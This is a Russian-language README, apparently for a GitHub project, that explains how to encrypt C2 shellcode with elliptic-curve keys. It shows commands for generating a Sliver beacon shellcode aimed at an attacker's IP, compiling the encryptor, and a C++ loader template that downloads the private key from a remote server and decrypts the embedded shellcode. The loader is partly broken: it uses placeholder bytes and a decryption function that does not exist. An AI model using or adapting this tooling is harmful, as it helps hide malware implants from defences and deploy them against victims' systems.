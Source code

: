 ## Этот код поможет вам зашифровать свой shellcode с использованием метода эллиптических кривых.

**Requirements**
g++

if not install

```bash
apt install g++
```

openssl v3.1
sliver(or other c2)
libssl-dev 

```bash
libssl-dev
```

**Подготовка**
Сгенерируйте shellcode в формате **.bin.** Для этого вы можете использовать Bishop Fox Sliver в качестве C2, чтобы создать shellcode:

```bash
sliver> generate beacon http://ip:80 -f shellcode
```

При необходимости вы также можете использовать дополнительные параметры.

Сгенерируйте **.pem** ключи с помощью OpenSSL:

```bash
openssl ecparam -name prime256v1 -genkey -noout -out ecc-key.pem
```
```bash
openssl ec -in ecc-key.pem -pubout -out ecc-public.pem
```

Клонируйте репозиторий с кодом для шифрования:


```bash
git clone github.com/wearetyomsmnv/ec_encoder_cpp
```

## Компиляция кода ##

Скомпилируйте код с помощью g++:

```bash
g++ ec_encoder.cpp -o encrypt_shellcode -lcrypto
```

## Запуск шифрования ##

**Запустите программу для шифрования:**

```bash
./encrypt_shellcode shellcode.bin ecc-public.pem
```

Где:

**shellcode.bin** - это файл с shellcode, полученный из Sliver (имя может отличаться).

**ecc-public.pem** - это открытый ключ.

## Как использовать это в реальном проекте ##

```c++
#include <iostream>
#include <openssl/evp.h>
#include <openssl/ec.h>
#include <openssl/err.h>
#include <openssl/pem.h>
#include <openssl/x509.h>
#include <curl/curl.h>

// Адрес сервера, предоставляющего .pem
static const char* SERVER_URL = "https://example.com/private-key.pem";

// Здесь должен быть ваш зашифрованный шеллкод
static const unsigned char encrypted_shellcode[] = {
    0xYY, 0xYY, 0xYY, ... // Зашифрованный шеллкод в формате байтов
};

// Функция обратного вызова для получения данных с сервера через libcurl
static size_t write_callback(void *contents, size_t size, size_t nmemb, void *userp) {
    std::string *buffer = reinterpret_cast<std::string*>(userp);
    size_t total_size = size * nmemb;
    buffer->append(static_cast<char*>(contents), total_size);
    return total_size;
}

int main() {
    OpenSSL_add_all_algorithms();
    ERR_load_crypto_strings();
    curl_global_init(CURL_GLOBAL_DEFAULT);

    // Инициализация сессии libcurl
    CURL *curl = curl_easy_init();
    if (!curl) {
        std::cerr << "Ошибка при инициализации сессии libcurl" << std::endl;
        return 1;
    }

    // Установка URL для запроса
    curl_easy_setopt(curl, CURLOPT_URL, SERVER_URL);

    // Создание буфера для хранения полученного PEM-файла
    std::string pem_data;

    // Установка функции обратного вызова для записи данных
    curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, write_callback);
    curl_easy_setopt(curl, CURLOPT_WRITEDATA, &pem_data);

    // Выполнение запроса
    CURLcode res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        std::cerr << "Ошибка при выполнении запроса: " << curl_easy_strerror(res) << std::endl;
        curl_easy_cleanup(curl);
        return 1;
    }

    // Закрытие сессии libcurl
    curl_easy_cleanup(curl);

    // Преобразование PEM-данных в структуру ключа
    BIO *bio = BIO_new_mem_buf(pem_data.c_str(), -1);
    EC_KEY *key = PEM_read_bio_ECPrivateKey(bio, nullptr, nullptr, nullptr);
    if (!key) {
        std::cerr << "Ошибка при чтении приватного ключа из PEM-данных" << std::endl;
        BIO_free(bio);
        return 1;
    }
    BIO_free(bio);

    // Расшифрование с использованием приватного ключа
    size_t encrypted_len = sizeof(encrypted_shellcode);
    unsigned char decrypted[1024]; // Буфер для расшифрованных данных
    int decrypted_len = ECIES_decrypt(key, encrypted_shellcode, encrypted_len, decrypted, sizeof(decrypted));

    // Вывод расшифрованных данных
    std::cout << "Decrypted Data:" << std::endl;
    for (int i = 0; i < decrypted_len; ++i) {
        std::cout << std::hex << (int)decrypted[i];
    }
    std::cout << std::endl;

    // Освобождение ресурсов
    EC_KEY_free(key);

    // Очистка библиотеки OpenSSL
    ERR_free_strings();
    curl_global_cleanup();

    return 0;
}


```
